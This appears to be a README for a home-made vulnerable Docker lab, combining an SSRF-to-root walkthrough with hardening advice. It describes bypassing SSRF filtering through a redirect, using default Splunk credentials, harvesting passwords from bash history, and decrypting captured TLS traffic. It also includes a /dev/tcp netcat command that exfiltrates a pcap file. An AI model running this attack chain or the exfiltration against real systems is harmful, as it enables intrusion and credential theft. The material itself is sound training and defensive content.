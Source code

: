 # Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I'm always amazed by the level of complexity and detail that goes into some of the machines, so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. As a result I made a network of a couple docker containers where a user can go from external access to root inside a container.

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network. (I couldn't find a way to isolate the splunk container from the host using purely docker networking as the host always gets assigned as the default gateway on any docker network I define)

The web app is the `SSRF` app written in `node.js` from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container which works. From here we could try and pivot to the `splunk` container with `ssh`, hoping for credential re-use but this doesn't work. Looking around the filesystem we can read admin's `.bash_history` which reveals a mistake in a `sudo -u` command which exposes `admin2's` password.

We find we can pivot to the splunk container with the found credentials over `ssh`.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

<img src="images/health_check.png">

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

<img src="images/re.png">

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

<img src="images/res.png">

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

<img src="images/user.png">

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

<img src="images/access.png">

Doing a light password spray against known users on the web container, we find the password `changeme` has been reused for `admin`. We can simply `ssh` into the box now.

<img src="images/splunk-access.png">

A good first place to look for creds is always `.bash_history`. In this case we see an erroneous `sudo` command which potentially exposes `admin2's` credentials. We can try pivot into the Splunk container with `ssh` and `admin2:changeme2`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

<img src="images/sudo.png">

Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients and the server.

<img src="images/sslpass.png">

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. 

<img src="images/traffic.png">

With my other `sudo` privilege, I'll run `tcpdump` for a short while to see what traffic I can capture, and send the output to `output.pcap`. I'll exfil this file by running `nc -nvlp 7777 > output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

<img src="images/rootcreds.png">

I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`. Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.



Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.

# Hardening Strategies
- Network segmentation to prevent SSRF. Does the web app need to be able to talk to splunk? Perhaps because the app  may forward logs to the splunk deployment server on port 9097, in which case reserve a port on the web app container to send logs from and firewall off other ports. If they don't need to talk at all, could segment with VLANs.
- Configure the `node` app not to follow redirects by specifying `{ maxRedirects: 0 }` in `axios.get()`
- Use PAM to enable a strong password policy for SSH. Edit `minlength, minclass, maxrepeat` in `/etc/pam.d/common-password`.
- Disable `ssh` password authentication with the line `PubkeyAuthentication yes` in `/etc/ssh/sshd_config`.
- Better yet disable `ssh` if not needed with `sudo systemcl disable ssh` so it persists across reboots.
- Try and avoid password reuse by educating users, centralized authentication e.g. Kerberos, LDAP, or enforce MFA.
- Keep software patched and up to date. Versions of splunk >7.1.0 don't allow remote login using default credentials, and force the user to provide a new password on first local login.
- Use the principle of least privilege. Does `admin2` need to be able to read *every* file in `/opt/splunk` Do they *need* to be able to capture traffic on localhost, if yes can they make do with only certain ips/ports/protocols.
- Weak crypto. The perl script in the root cron specified a weak cipher suite `AES128-SHA256`. A DH based key exchange offers perfect forward secrecy, so knowledge of long term secrets like the server's private key isn't enough to decrypt the traffic.

Any one of the above hardening techniques has the potential to completely halt the attack flow from proceding to the next step. This is why defense in depth is such a powerful concept.
